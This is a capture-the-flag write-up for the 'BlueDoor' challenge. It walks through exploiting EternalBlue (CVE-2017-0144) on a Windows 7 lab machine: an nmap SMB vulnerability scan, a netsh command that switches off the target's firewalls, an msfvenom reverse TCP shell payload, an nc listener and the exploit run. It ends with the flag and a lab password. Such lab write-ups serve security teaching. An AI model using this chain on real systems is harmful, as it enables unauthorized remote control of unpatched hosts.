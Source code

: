 # BlueDoor Writeup

## Challenge Information

Link: [<link>](https://github.com/sethwhy/BlueDoor)

Difficulty: 3/5

Category/Categories: Exploitation, Windows

Author(s): Seth Davis
References(s): worawit & strik1r

Description:

```
Can you exploit the EternalBlue vulnerability (CVE-2017-0144) on a Windows 7 system and retrieve the hidden flag? Your goal is to gain administrative privileges and locate the flag.txt file stored in the `C:\Windows\System32` directory.

This challenge simulates a real-world vulnerability and requires you to analyze the system, execute an exploit, and navigate to the restricted file location.

```

Hint(s):

- `Hidden in plain sight, more like plain text!`
- `Hmm System32 huh..`

When you first start the challenge, you are presented with:

A Windows 7 virtual machine vulnerable to EternalBlue (CVE-2017-0144).
A flag hidden in the system, requiring administrative privileges to access.

## Solution

```
1. Environment Setup:
Install and configure Kali Linux in your virtual environment (e.g., VMware, VirtualBox).
Ensure that your IP address matches the subnet of the target machine.

2. Network Scanning:
Use nmap to scan for open ports and detect if the target is vulnerable:
nmap -p 139,445 --script smb-vuln-ms17-010 <target-ip>
Confirm that TCP ports 139 and 445 are open and that the SMB service is vulnerable.
![net-scan](image-1.png)

3. Disable Firewalls (on the target)
If possible, run:
netsh advfirewall set allprofiles state off
This ensures no interference during the exploitation process.
![firewall-off](image.png)
Password for Flag user that isnt the flag: 4770_sethwhy

4. Exploit EternalBlue:
Use Metasploit or any other payload generator to create a reverse TCP payload.
Some links for help the way I did it - https://github.com/helviojunior/MS17-010, https://github.com/worawit/MS17-010, https://redteamzone.com/EternalBlue/, https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/

Assemble shellcode & create payload
- nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<VM kali machine ip> LPORT=<listen port i.e 4445> -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
(There are other ways to do this, im giving you one solution)

- Set up a listener on your attacking machine:
nc -lvnp 4445
![listener-launch](image-3.png)

- Run the command "python eternalblue_exploit7 <target-ip> <any shellcode that works>"

- Deliver the payload to the target and exploit the vulnerability.
![SMB1-connection](image-2.png)

5. Gain Administrative Privileges:
Once inside the system, check to see if privileges were escalated.
![whoami](image-4.png)

6. Search for the Flag:
Look for .txt files in the C:\Windows\System32 directory with this command:
dir *.txt /s /b
![txt-scan](image-5.png)

Locate and open the flag.txt file to retrieve its contents.
![flag-content](image-6.png)
```

Flag: `CTF{4770_sethwhy}`
